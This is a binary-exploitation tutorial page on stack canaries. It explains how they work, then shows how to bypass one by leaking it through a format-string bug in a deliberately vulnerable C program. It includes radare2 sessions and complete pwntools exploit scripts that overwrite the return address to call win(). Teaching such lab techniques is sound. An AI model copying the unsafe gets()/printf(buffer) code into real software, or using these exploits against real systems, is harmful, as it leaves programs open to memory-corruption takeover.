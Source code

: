 ```yaml
---
description: The Buffer Overflow defence
---
```


# Stack Canaries

Stack Canaries are very simple - at the beginning of the function, a random value is placed on the stack. Before the program executes `ret`, the current value of that variable is compared to the initial: if they are the same, no buffer overflow has occurred.

If they are not, the attacker attempted to overflow to control the return pointer and the program crashes, often with a `***stack smashing detected***` error message.

{% hint style="info" %}
On Linux, stack canaries end in `00`. This is so that they null-terminate any strings in case you make a mistake when using print functions, but it also makes them much easier to spot.
{% endhint %}

## Bypassing Canaries

There are two ways to bypass a canary.

### Leaking it

This is quite broad and will differ from binary to binary, but the main aim is to read the value. The simplest option is using **format string** if it is present - the canary, like other local variables, is on the stack, so if we can leak values off the stack it's easy.

#### Source

```c
#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Leak me");
    gets(buffer);

    printf(buffer);
    puts("");

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}

void win() {
    puts("You won!");
}
```

The source is very simple - it gives you a format string vulnerability, then a buffer overflow vulnerability. The format string we can use to leak the canary value, then we can use that value to overwrite the canary with itself. This way, we can overflow past the canary but not trigger the check as its value remains constant. And of course, we just have to run `win()`.

#### 32-bit

{% file src="../../.gitbook/assets/canary-32.zip" caption="Canary - 32-bit" %}

First let's check there **is** a canary:

```text
$ pwn checksec vuln-32 
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Yup, there is. Now we need to calculate at what offset the canary is at, and to do this we'll use radare2.

```text
$ r2 -d -A vuln-32

[0xf7f2e0b0]> db 0x080491d7
[0xf7f2e0b0]> dc
Leak me
%p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
0xffd7cd60  0xffd7cd7c 0xffd7cdec 0x00000002 0x0804919e  |...............
0xffd7cd70  0x08048034 0x00000000 0xf7f57000 0x00007025  4........p..%p..
0xffd7cd80  0x00000000 0x00000000 0x08048034 0xf7f02a28  ........4...(*..
0xffd7cd90  0xf7f01000 0xf7f3e080 0x00000000 0xf7d53ade  .............:..
0xffd7cda0  0xf7f013fc 0xffffffff 0x00000000 0x080492cb  ................
0xffd7cdb0  0x00000001 0xffd7ce84 0xffd7ce8c 0xadc70e00  ................
```

The last value there is the canary. We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in `00` and looks very random, unlike the libc and stack addresses that start with `f7` and `ff`. If we count the number of address it's around 24 until that value, so we go one before and one after as well to make sure.

```text
$./vuln-32

Leak me
%23$p %24$p %25$p
0xa4a50300 0xf7fae080 (nil)
```

It appears to be at `%23$p`. Remember, stack canaries are randomised for each new process, so it won't be the same.

Now let's just automate grabbing the canary with pwntools:

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```text
$ python3 exploit.py 
[+] Starting local process './vuln-32': pid 14019
[*] b'Leak me\n'
[+] Canary: 0xcc987300
```

Now all that's left is work out what the offset is until the canary, and then the offset from after the canary to the return pointer.

```text
$ r2 -d -A vuln-32
[0xf7fbb0b0]> db 0x080491d7
[0xf7fbb0b0]> dc
Leak me
%23$p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
[...]
0xffea8af0  0x00000001 0xffea8bc4 0xffea8bcc 0xe1f91c00
```

We see the canary is at `0xffea8afc`. A little later on the return pointer \(we assume\) is at `0xffea8b0c`. Let's break just after the next `gets()` and check what value we overwrite it with \(we'll use a De Bruijn pattern\).

```text
[0x080491d7]> db 0x0804920f
[0x080491d7]> dc
0xe1f91c00
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
hit breakpoint at: 804920f
[0x0804920f]> pxw @ 0xffea8afc
0xffea8afc  0x41574141 0x41415841 0x5a414159 0x41614141  AAWAAXAAYAAZAAaA
0xffea8b0c  0x41416241 0x64414163 0x41654141 0x41416641  AbAAcAAdAAeAAfAA
```

Now we can check the canary and EIP offsets:

```text
[0x0804920f]> wopO 0x41574141
64
[0x0804920f]> wopO 0x41416241
80
```

Return pointer is 16 bytes after the canary start, so 12 bytes after the canary.

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # overwrite canary with original value to not trigger
payload += b'A' * 12    # pad to return pointer
payload += p32(0x08049245)

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))
```

#### 64-bit

Same source, same approach, just 64-bit. Try it yourself before checking the solution.

{% hint style="info" %}
Remember, in 64-bit format string goes to the relevant registers first and the addresses can fit 8 bytes each so the offset may be different.
{% endhint %}

{% file src="../../.gitbook/assets/canary-64.zip" caption="Canary - 64-bit" %}

### Bruteforcing the Canary

This _is_ possible on 32-bit, and sometimes unavoidable. It's not, however, feasible on 64-bit.

As you can expect, the general idea is to run the process loads and load of times with random canary values until you get a hit, which you can differentiate by the presence of a known plaintext, e.g. `flag{` and this can take ages to run and is frankly not a particularly interesting challenge.

